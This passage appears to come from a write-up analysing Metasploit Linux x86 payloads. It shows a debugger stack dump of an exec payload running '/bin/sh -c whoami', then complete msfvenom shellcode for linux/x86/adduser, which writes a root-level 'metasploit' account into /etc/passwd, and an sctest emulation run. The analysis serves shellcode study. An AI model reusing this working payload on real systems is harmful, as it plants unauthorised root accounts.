 ```
   0xffffca1d:	leave  
   0xffffca1e:	(bad)  
   0xffffca1f:	inc    DWORD PTR [eax-0x36]
[------------------------------------stack-------------------------------------]
0000| 0xffffc9ce --> 0xffffc9de ("/bin/sh")
0004| 0xffffc9d2 --> 0xffffc9e6 --> 0x632d ('-c')
0008| 0xffffc9d6 --> 0xffffca0e ("whoami")
0012| 0xffffc9da --> 0x0
0016| 0xffffc9de ("/bin/sh")
0020| 0xffffc9e2 --> 0x68732f ('/sh')
0024| 0xffffc9e6 --> 0x632d ('-c')
0028| 0xffffc9ea --> 0x56060000
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0xffffca19
```

And when executed, successfully calls `whoami`:

```shell_session
$ ./test
Shellcode length: 15
rastating
```

Analysis of linux/x86/adduser
-----------------------------
The `linux/x86/adduser` payload creates a new user on the system. By default, the username and password for the new user are both `metasploit` and the default shell is `sh`.

As the defaults for the payload are acceptable, I did not override them when generating the payload:

```shell_session
$ msfvenom -p linux/x86/adduser -f c          
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] =
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```

Testing the shellcode with `sctest` didn't reveal any system calls, even with a higher level of verbosity:

```shell_session
$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | sctest -vvvv -Ss 100000
verbose = 4
[emu 0x0x56414d48e740 debug ] cpu state    eip=0x00417000
[emu 0x0x56414d48e740 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x56414d48e740 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x56414d48e740 debug ] Flags:
[emu 0x0x56414d48e740 debug ] cpu state    eip=0x00417000
[emu 0x0x56414d48e740 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x56414d48e740 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
```